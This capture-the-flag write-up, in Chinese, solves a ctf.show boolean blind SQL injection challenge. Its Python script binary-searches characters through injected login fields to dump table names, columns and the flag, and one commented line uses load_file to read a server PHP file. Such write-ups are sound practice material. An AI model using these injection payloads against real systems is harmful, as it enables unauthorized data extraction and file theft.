

# 知识点
常规布尔盲注<br />表单post传参不用url编码（被坑）
# 思路
```python
import requests
url = 'http://573c8919-43c4-4f05-9949-78c1397002e7.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆数据库
        # payload1 = {
        #     'username': f"' or if(ascii(substr(()))",
        #     'password': f"123"
        # }
        # 爆表名
        # payload = {
        #     'username': f"' or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{i},1))<{j},1,0)#",
        #     'password': f"123"
        # }
        # 爆列
        # payload = {
        #     'username': f"' or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'),{i},1))<{j},1,0)#",
        #     'password': f"123"
        # }
        # # 爆值
        payload = {
            'username': f"' or if(ascii(substr((select group_concat(f1ag) from ctfshow_fl0g),{i},1))<{j},1,0)#",
            'password': f"123"
        }
        # payload = {'username':f"if(load_file('/var/www/html/api/index.php')regexp('{flag+j}'),0,1)",
        #            'password':0}
        r = requests.post(url=url,data=payload).text
        if(r'\u5bc6\u7801\u9519\u8bef' in r):
            max = j
        else:
            min = j
```

